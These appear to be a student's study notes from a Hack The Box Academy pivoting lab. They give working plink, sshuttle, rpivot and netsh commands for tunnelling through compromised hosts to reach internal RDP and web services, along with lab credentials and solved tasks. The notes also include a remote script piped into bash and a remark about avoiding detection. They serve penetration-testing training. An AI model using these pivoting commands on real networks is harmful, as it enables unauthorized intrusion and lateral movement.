




### SSH for Windows: plink.exe

```
# Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. 
# Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies.

# Imagine that we are on a pentest and gain access to a Windows machine. 
# We can use it to create our pivot and potentially avoid detection a little longer. 
```



```
# Using Plink.exe (starting win exe file and put command to appeared terminal)

plink -ssh -D 9050 ubuntu@10.129.15.50
```



```
# Another Windows-based tool called Proxifier can be used to start a SOCKS tunnel via the SSH session we created. 
# Proxifier is a Windows tool that creates a tunneled network for desktop client applications 
# and allows it to operate through a SOCKS or HTTPS proxy and allows for proxy chaining. 

# After configuring the SOCKS server for 127.0.0.1 and port 9050, 
# we can directly start mstsc.exe to start an RDP session with a Windows target that allows RDP connections.
```

### SSH Pivoting with Sshuttle

[Sshutle](https://github.com/sshuttle/sshuttle)

```
# Sshuttle is another tool written in Python which removes the need to configure proxychains. 
# However, this tool only works for pivoting over SSH and does not provide other options 
# for pivoting over TOR or HTTPS proxy servers. 

# Sshuttle can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host.
# We can configure the Ubuntu server as a pivot point and route all of Nmap's network traffic 
# with sshuttle using the example later in this section.
```

```
sudo apt-get install sshuttle                                    # Installing sshuttle
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v           # Running sshuttle

# With this command, sshuttle creates an entry in our iptables to redirect all traffic 
# to the 172.16.5.0/23 network through the pivot host.

nmap -v -sV -p3389 172.16.5.19 -A -Pn                            # TargetHost Nmap scan through pivot host
```


###  Task Example 

```
"ubuntu" and password "HTB_@cademy_stdnt!" 

ssh ubuntu@10.129.232.222                # connect to pivot host
ip a                                     # check IP which connected by int subnetwork with Win Target Host (172.16.5.129)

sudo sshuttle -r ubuntu@10.129.232.222 172.16.5.0/23 -v         # Run traffic forwarding tool  

nmap -v -sV -p3389 172.16.5.19 -A -Pn                           # Check RDP port is opened on target win host (2nd terminal)
xfreerdp /v:172.16.5.19 /u:victor /p:pass@123                   # Connection test via RDP & traffic forwarding(Success login)
``` 

### Web Server Pivoting with Rpivot

[Rpivot](https://github.com/klsecservices/rpivot)

```
# Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. 
# Rpivot binds a machine inside a corporate network to an external server 
# and exposes the client's local port on the server-side.

# We will take the scenario below, where we have a web server on our internal network (172.16.5.135), 
# and we want to access that using the rpivot proxy.
```



```
git clone https://github.com/klsecservices/rpivot.git                # Cloning rpivot
sudo apt-get install python2.7                                       # Installing Python2.7
```

```
# Alternative Installation of Python2.7 (if default apt install is not working)

curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```

```
# We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using server.py.
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0            # Running server.py from PenTestHost

# Before running client.py we will need to transfer rpivot to the target. We can do this using this SCP command:
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/                                  # Transfering rpivot to the Target

ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999   # Running client.py from Pivot Target

# Confirming Connection is Established
New connection from host 10.129.202.64, source port 35226
```

```
# We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, 
# which was initially started by the Python server.

# Finally, we should be able to access the webserver on our server-side, 
# which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

proxychains firefox-esr 172.16.5.135:80                 # Browsing to the Target Webserver using Proxychains
```

```
# Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot 
# to an external server (attack host) on the cloud. 
# Some organizations have HTTP-proxy with NTLM authentication configured with the Domain Controller. 
# In such cases, we can provide an additional NTLM authentication option to rpivot 
# to authenticate via the NTLM proxy by providing a username and password.

# Connecting to a Web Server using HTTP-Proxy & NTLM Auth

python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

### Task solution

```
# SSH to 10.129.48.250 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"  

# install python2.7 in alternative way

scp -r rpivot ubuntu@10.129.48.250:/home/ubuntu/ 
ssh ubuntu@10.129.48.250 
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 10.10.14.223
python2.7 client.py --server-ip 10.10.14.223 --server-port 9999

proxychains firefox-esr 172.16.5.135:80          # is not worked for me 

# So I curl 172.16.5.135:80 from 10.129.48.250 host
# Also flag was corrupted, need to replace capital "O" to zero "0"
```

### Port Forwarding with Windows Netsh

[Netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)

```
# Netsh is a Windows command-line tool that can help with the network configuration of a particular Windows system.
# Tasks we can use Netsh for:

-Finding routes
-Viewing the firewall configuration
-Adding proxies
-Creating port forwarding rules
```

```
# Let's take an example of the below scenario where our compromised host is a Windows 10-based IT admin's workstation 
# (10.129.15.150,172.16.5.25). 
# Keep in mind that it is possible on an engagement that we may gain access to an employee's workstation 
# through methods such as social engineering and phishing. 
# This would allow us to pivot further from within the network the workstation is i
```




```
# We can use netsh.exe to forward all data received on a specific port (say 8080) to a remote host on a remote port. 
# This can be performed using the below command.

netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25

# Verifying Port Forward

netsh.exe interface portproxy show v4tov4
```

```
# After configuring the portproxy on our Windows-based pivot host, 
# we will try to connect to the 8080 port of this host from our attack host using xfreerdp. 
# Once a request is sent from our attack host, the Windows host will route our traffic 
# according to the proxy settings configured by netsh.exe.

# Connecting to the Internal Host through the Port Forward
    xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

### Task solution 

```
# RDP to 10.129.52.49 (ACADEMY-PIVOTING-WIN10PIV) with user "htb-student" and password "HTB_@cademy_stdnt!" 
victor:pass@123
xfreerdp /v:10.129.52.49 /u:htb-student /p:HTB_@cademy_stdnt!
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.52.49 connectport=3389 connectaddress=172.16.5.19
xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
---------------------------------------------------